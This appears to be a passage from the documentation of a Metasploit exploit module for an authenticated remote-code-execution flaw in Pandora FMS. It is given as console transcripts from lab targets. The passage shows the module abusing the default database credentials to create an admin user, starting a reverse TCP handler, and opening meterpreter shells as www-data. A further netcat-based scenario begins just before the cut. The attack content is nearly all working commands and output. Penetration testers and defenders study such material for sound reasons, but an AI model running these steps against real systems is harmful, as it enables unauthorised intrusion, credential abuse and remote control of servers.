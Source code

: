 ```msf
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.777 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the default database credentials (pandora:Pandor4!) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set target 1
target => 1
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set password xxx
password => xxx
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Found chromium_path RCE. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:xxx at the Pandora FMS Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials 39mqge:nmC9AuEJ5M for access at the Pandora FMS Web application.
[*] Trying to log in with new admin credentials 39mqge:nmC9AuEJ5M at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:48916) at 2025-04-05 11:33:09 +0000
[+] Payload is successful removed from chromium_path path configuration.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.738 on CentOS 7 - Tiny Netcat Command
Attack scenario: use the payload less then 100 bytes to achieve the RCE.
```msf
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set password pandora
password => pandora
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set target 2
target => 2
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
```